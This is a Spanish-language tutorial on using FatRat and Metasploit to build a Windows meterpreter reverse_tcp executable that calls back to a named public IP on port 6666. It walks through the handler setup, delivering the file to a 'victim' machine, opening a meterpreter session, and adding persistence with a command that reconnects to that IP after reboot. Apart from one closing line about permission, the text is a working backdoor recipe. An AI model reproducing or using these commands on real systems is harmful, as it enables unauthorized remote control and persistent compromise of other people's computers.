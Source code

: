 **Guía para el Uso de Metasploit y FatRat para Explotación y Control Remoto**
Índice
Introducción
Configuración del Entorno
Uso de FatRat para Generar un Payload
Configuración y Ejecución de Metasploit
Ejecución del Payload en la Máquina Víctima
Solución de Problemas
Notas Adicionales
Introducción
Este documento proporciona una guía paso a paso sobre cómo usar Metasploit y FatRat para generar un payload, configurarlo y explotarlo en una máquina Windows desde una máquina Kali Linux en la nube.

IP Pública de la Máquina Kali Linux: 20.51.215.235
Puerto Utilizado: 6666

Configuración del Entorno
Máquina Kali Linux:

Instalación en Azure o en un entorno en la nube.
Asegúrate de que Metasploit y FatRat estén instalados y actualizados.
Máquina Windows (Víctima):

Configurada con un sistema operativo Windows 10 para pruebas.
Se deben permitir conexiones entrantes para probar el payload.
Uso de FatRat para Generar un Payload
Inicia FatRat en Kali Linux:

bash
Copiar código
fatrat
Selecciona el Tipo de Payload:

Elige el tipo de payload que deseas generar. Para Windows, selecciona la opción:
Copiar código
2) WINDOWS >> FatRat.exe
Configura el Payload:

LHOST: La IP pública de tu máquina Kali Linux (20.51.215.235).
LPORT: Puerto a usar (6666).
Tipo de Payload: Elige windows/meterpreter/reverse_tcp.
Genera el Payload:

Proporciona un nombre base para el archivo, por ejemplo, ejecutable.
FatRat generará un archivo .exe en el directorio especificado.
bash
Copiar código
/root/Fatrat_Generated/ejecutable.exe
Configuración y Ejecución de Metasploit
Inicia Metasploit:

bash
Copiar código
msfconsole
Configura el Handler en Metasploit:

bash
Copiar código
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 20.51.215.235
set LPORT 6666
exploit
PAYLOAD: Tipo de payload utilizado.
LHOST: IP pública de la máquina Kali.
LPORT: Puerto en el que Metasploit escuchará las conexiones entrantes.
Ejecución del Payload en la Máquina Víctima
Transfiere el Payload al Sistema Windows:

Usa un método de transferencia, como HTTP, FTP, o una unidad USB para mover el archivo ejecutable.exe a la máquina Windows.
Ejecuta el Payload:

Abre el archivo ejecutable.exe en la máquina Windows. Esto iniciará una conexión de reverso hacia tu máquina Kali.
Establece la Sesión Meterpreter:

Cuando el payload se ejecute, Metasploit debería abrir una sesión Meterpreter en la consola.
bash
Copiar código
meterpreter > sysinfo
meterpreter > getuid
Solución de Problemas
Conexión Fallida:

Asegúrate de que el firewall en la máquina Windows no esté bloqueando la conexión.
Verifica que el puerto 6666 esté abierto y escuchando en tu máquina Kali.
Timeouts y Errores:

Ajusta el timeout de las sesiones en Metasploit con:
bash
Copiar código
sessions -i <ID> --timeout <valor>
Verificación del Listener:

Usa netstat para verificar que el puerto 6666 esté en uso:
bash
Copiar código
netstat -an | grep 6666
Notas Adicionales
Persistencia: Si necesitas que el payload se ejecute automáticamente después de un reinicio, configura la persistencia en Metasploit:

bash
Copiar código
run persistence -X -i 10 -p 6666 -r 20.51.215.235
Seguridad: Asegúrate de tener permiso explícito para realizar pruebas en las máquinas objetivo. La explotación no autorizada es ilegal y poco ética.

Actualizaciones: Mantén tanto Metasploit como FatRat actualizados para asegurar la compatibilidad y las últimas características.
